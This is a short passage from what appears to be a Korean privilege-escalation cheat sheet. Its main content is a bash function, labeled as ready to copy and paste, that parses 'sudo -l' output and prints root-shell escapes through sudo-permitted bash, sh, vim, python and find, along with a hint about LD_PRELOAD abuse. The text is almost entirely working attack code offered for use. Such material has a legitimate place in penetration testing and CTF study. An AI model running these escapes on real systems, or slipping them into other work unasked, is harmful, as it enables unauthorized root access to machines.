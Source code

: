 ```bash
# 실행
sudo_analysis
```

### 🎯 즉시 익스플로잇 테스트 스크립트

```bash
# sudo 익스플로잇 자동 테스트 (복붙용)
auto_sudo_exploit() {
    echo "=== AUTOMATED SUDO EXPLOIT ATTEMPTS ==="

    # 직접 쉘 테스트
    if sudo -l 2>/dev/null | grep -q "bash"; then
        echo "[!] Testing: sudo bash"
        echo "sudo bash" && return
    fi

    if sudo -l 2>/dev/null | grep -q "sh"; then
        echo "[!] Testing: sudo sh"
        echo "sudo sh" && return
    fi

    # vim 테스트
    if sudo -l 2>/dev/null | grep -q "vim"; then
        echo "[!] Found sudo vim - Manual exploit:"
        echo "sudo vim -c ':!/bin/sh'"
    fi

    # python 테스트
    if sudo -l 2>/dev/null | grep -q "python"; then
        echo "[!] Testing: python exploit"
        echo 'sudo python -c "import os; os.system(\"/bin/sh\")"'
    fi

    # find 테스트
    if sudo -l 2>/dev/null | grep -q "find"; then
        echo "[!] Testing: find exploit"
        echo 'sudo find . -exec /bin/sh \; -quit'
    fi

    # 환경 변수 테스트
    if sudo -l 2>/dev/null | grep -q "env_keep.*LD_PRELOAD"; then
        echo "[!] LD_PRELOAD exploitation possible!"
        echo "Create malicious .so file and use LD_PRELOAD"
    fi
}

# 실행
auto_sudo_exploit
```
